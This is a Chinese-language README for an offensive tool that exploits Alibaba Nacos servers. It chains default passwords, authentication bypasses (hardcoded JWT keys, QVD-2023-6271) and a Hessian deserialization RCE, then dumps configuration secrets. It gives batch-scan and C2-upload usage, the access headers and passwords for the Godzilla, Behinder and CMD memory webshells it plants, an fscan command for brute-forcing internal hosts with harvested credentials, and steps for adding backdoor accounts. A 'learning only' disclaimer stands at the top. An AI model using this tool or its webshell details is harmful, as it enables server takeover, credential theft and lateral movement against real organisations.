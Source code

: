 # HKEcho Nacos快速利用工具 v0.1

注意：工具仅供学习使用，请勿滥用，否则后果自负！
本工具可在Win11或Cmder等命令行工具上正常运行颜色打印，Win10等系统命令行会输出颜色报错，不影响功能正常使用
```
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
```

工具文件夹中HKEcho_Nacos.exe，nacosleak.exe均已通过upx压缩加壳减小体积。担心后门可自行编译或前往原项目地址下载。

## 原理

本工具支持检测以下漏洞：

```
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测nacos默认口令
2、任意用户添加
3、任意用户添加UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认JWT任意用户添加
6、JWT_Secret_Key硬编码绕过
7、Identity硬编码绕过
8、QVD-2023-6271身份认证绕过
一旦某个漏洞获取账号密码后，会调用a1phaboy师傅写的nacosleak读取配置文件

9、Nacos_Jraft_Hessian反序列化漏洞
程序会调用c0olw师傅写的NacosRce打一遍Jraft_Hessian反序列化漏洞（本工具在调用这个NacosRce工具前会判断Java环境，若不存在，则告警不执行）
```

## 安装

```
pip install -r requirements.txt
```

## 食用

```
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个URL:http://127.0.0.1:8848
  -f FILENAME  批量检测,包含URL的文本文件
```

**1、单个目标检测：**

```
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

![image-20231114180219893](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231114180219893.png)

**2、批量目标检测**：

新建txt文件，一行放一个Nacos的URL

```
python HKEcho_Nacos.py -f target.txt
```

![image-20231114191212752](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231114191212752.png)

**3、特殊场景下使用**

注意：HKEcho_Nacos.exe命令行界面在win11下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传python打包的HKEcho_Nacos.exe到C2上使用，注意，单纯上传HKEcho_Nacos.exe运行，会对内网目标nacos添加一个账号，不会对目标进行配置文件导出和检测Nacos_Jraft_Hessian反序列化漏洞。若想导出配置文件，可单独上传nacosleak.exe进行读取。

![image-20231115095419466](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115095419466.png)

![image-20231115095310757](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115095310757.png)

或者如下图直接将HKEcho_Nacos.exe与nacosleak.exe通过C2上传到目标服务器上同一目录下，直接执行HKEcho_Nacos.exe会自动调用nacosleak.exe

![image-20231115095608455](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115095608455.png)

同理，若想检测检测Nacos_Jraft_Hessian反序列化漏洞，同理可以将NacosRce压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce太大了。

![image-20231115100233567](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115100233567.png)

## Nacos后利用

### Nacos配置文件

上述利用完成后，会在/results/ip_port/public目录下生成目标站点的配置文件，a1phaboy师傅特别将ak/sk,password关键字提取了出来：

![image-20231114183758207](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231114183758207.png)

我们可以在内网可以通过该密码本快速爆破，比如利用fscan等工具

```
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞

一、冰蝎内存马：

```
1、需要设置请求头x-client-data:rebeyond
2、设置Referer:https://www.google.com/
3、路径随意
4、密码rebeyond
```

二、哥斯拉内存马：

```
1、需要设置请求头x-client-data:godzilla
2、设置Referer:https://www.google.com/
3、路径随意
4、密码是pass 和 key
```

三、CMD内存马：
```
1、需要设置请求头x-client-data:cmd
2、设置Referer:https://www.google.com/
3、请求头cmd:要执行的命令
```

#### **后渗透**

后渗透利用pap1rman师傅的哥斯拉nacos后渗透插件-postnacos

MakeToken

![250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b.png)

将生成后的token 保存进浏览器cookie 格式 token:{xxx}

![250532141-60089b8d-fa3d-4584-bc16-90dc5423d486](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/250532141-60089b8d-fa3d-4584-bc16-90dc5423d486.png)

**Adduser**

![250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f.png)

添加一个账号后，用nacosleak单独把配置文件读取下来。

```
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境

在github下载有漏洞的版本

https://github.com/alibaba/nacos/releases

![image-20231115102526342](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115102526342.png)

![image-20231115102620390](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115102620390.png)

## 参考链接

致谢：

https://github.com/Pizz33/nacos_vul

https://github.com/c0olw/NacosRce

https://github.com/pap1rman/postnacos


